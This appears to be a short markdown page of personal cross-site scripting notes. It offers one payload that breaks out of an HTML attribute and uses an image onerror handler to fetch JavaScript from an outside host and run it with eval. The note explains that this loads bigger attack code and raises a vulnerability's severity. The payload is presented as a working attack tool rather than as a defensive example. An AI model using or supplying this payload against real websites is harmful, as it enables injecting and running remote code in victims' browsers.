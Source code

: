 ```yaml
---
description: Some payloads I use when I try XSS
---
```


# XSS

### Payload to load external javascript

```html
"><img src=x onerror="fetch('//url.com/').then(r => r.text().then(text => eval(text)))">
```

By using this you will load the content of url and load bigger javascript code.

It can be useful when trying to increase the severity of the vulnerability.
